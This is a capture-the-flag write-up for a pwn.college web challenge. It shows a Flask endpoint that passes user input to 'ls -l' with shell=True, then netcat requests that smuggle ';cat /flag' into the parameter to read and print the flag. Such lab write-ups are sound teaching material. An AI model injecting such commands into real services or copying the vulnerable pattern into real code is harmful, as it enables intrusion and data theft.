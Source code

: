 ```yaml
---
title: "Command Injection 1 — Writeup"
category: "Web Exploitation"
challenge: "CMDi-1"
platform: "pwn.college"
difficulty: "Intermediate"
---
```


# Command Injection 1 — Writeup

## 🧠 Challenge Overview

In this challenge, we are provided with a Flask-based Python web server that exposes an endpoint at `/puzzle`. This endpoint accepts a `topdir` query parameter and runs the `ls -l` command on the specified directory.


## 🔍 Server Code Analysis

Here is the vulnerable code:

```python
@app.route("/puzzle", methods=["GET"])
def challenge():
    arg = flask.request.args.get("topdir", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/puzzle"><input type=text name=topdir><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """
```

## 🔥 Vulnerability

The server takes user input (topdir) and injects it directly into a shell command (ls -l {arg}) with shell=True, allowing arbitrary shell command execution. This is a classic command injection vulnerability.

## 🎯 Exploitation Steps

### Step 1: List root directory

```bash
hacker@web-security~cmdi-1:~$ printf "GET /puzzle?topdir=/ HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response includes the contents of /, revealing the presence of /flag:
```bash
-r--------    1 root root   60 Jul 20 04:23 flag
```

### Step 2: Inject command using ; to read the flag

```bash
hacker@web-security~cmdi-1:~$ printf "GET /puzzle?topdir=/;cat+/flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response:
```bash
pwn.college{YQtUmMdXcZJ2zAZL75q30YR820m.QX1YTN2wSM0IzMyEzW}
```

## How the Injection Worked

The command constructed on the server:
```bash
ls -l /;cat /flag
```
Using ; allows chaining of commands — ls -l / runs first, followed by cat /flag, which leaks the contents of the flag file.

##Flag
```bash
pwn.college{YQtUmMdXcZJ2zAZL75q30YR820m.QX1YTN2wSM0IzMyEzW}
```

